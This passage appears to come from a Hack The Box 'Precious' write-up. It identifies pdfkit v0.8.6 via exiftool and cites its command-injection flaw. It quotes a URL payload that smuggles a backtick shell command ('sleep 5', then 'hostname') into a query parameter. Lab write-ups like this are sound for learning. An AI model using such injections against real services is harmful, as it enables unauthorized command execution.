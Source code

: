 I downloaded the pdf and ran `exiftool` on the pdf that was generated. The metadata shows that it was created by `pdfkit v0.8.6`. 

```
┌──(root㉿dragon)-[~/htb/precious**]
└─# exiftool preciousPDF.pdf

ExifTool Version Number         : 12.57
File Name                       : preciousPDF.pdf
Directory                       : .
File Size                       : 11 kB
File Modification Date/Time     : 2023:05:21 17:48:16-06:00
File Access Date/Time           : 2023:05:21 17:48:16-06:00
File Inode Change Date/Time     : 2023:05:21 17:48:26-06:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

A google search on the version lead me to a [snyk](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) article that explains an RCE vulnerability. When I submitted the url to my kali machine it passed it into a pdfkit function called `PDFKit.new`. That function is vulnerable to command injection. From the synk page, the payload is:

```
http://example.com/?name=%20`sleep 5`
```

To perform this attack I will keep my python web server running

```
┌──(root㉿dragon)-[~/htb/precious/www]
└─# python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Next, I'll submit another request to convert to a pdf but this time intercept it and send it to burpsuites repeater tab. I'll replace the url with the injection payload, but change the command to be `hostname`, I'll also make sure to url encode the payload (per the exploit I need to include a space before the command hence the %20)